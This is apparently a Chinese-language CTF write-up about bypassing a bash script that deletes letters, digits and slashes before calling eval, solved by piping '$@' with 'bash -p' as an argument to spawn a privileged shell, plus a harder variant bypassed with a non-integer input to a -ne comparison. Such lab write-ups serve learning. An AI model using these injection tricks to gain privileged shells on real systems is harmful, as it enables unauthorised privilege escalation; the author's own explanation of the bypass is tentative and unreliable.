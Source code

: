 好久没打过靶机了，也没更新过，今天在群里看到了群主发了一个题目就玩了一下，顺便水一期wp

题目：

![image-20250322153403638](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153403675.png)

```
PATH=/usr/bin
read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

浅瞄了一眼，发现tr删除了所有字母、数字和斜杠，但保留特殊符号，那就有搞头

ps:$@ 在 Shell 中表示脚本的所有参数，可被 eval 解析。



我们可以构造输入$@，绕过字符过滤。然后再传递参数bash -p启动特权Shell。

解法：

```
echo '$@' | ./a.sh 'bash -p'
```

但是我的不是预期解

![image-20250322153428456](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153428487.png)

![image-20250322153442791](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153442822.png)

这两个是预期的

然后.....

![image-20250322153453994](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153454035.png)

加强版：

```
#!/bin/bash

PATH=/usr/bin

a=$((RANDOM%100))

echo $a

read -r INPUTS


if [[ "$INPUTS" -ne "$a" ]]; then
    exit 1
fi

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

加了一个随机数，我本身是说爆破的......

![image-20250322153509806](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153509848.png)

然后后面有空瞄了几眼，因为我知道它在进行整数的比较，那我就在想如果输入一个非整数会怎么样，然后......

![image-20250322153523210](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153523241.png)

有戏

![image-20250322153725388](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153725419.png)

然后我后面我想找一下这方面的资料，但是我没找到，我打算明天再去问问群主，因为他bash比较好（不过我感觉他会自己来看我的wp）

目前我的理解是当使用-ne比较非数字字符串时，Bash会尝试将两边转换为整数。如果转换失败，就会报错什么的，[[ ]]表达式的结果会被视为false，因为比较操作本身无效，导致整个条件判断为假，因此不执行exit 1。



不管了，睡觉，等群主给我解惑了

<!-- ##{"timestamp":1735371521}## -->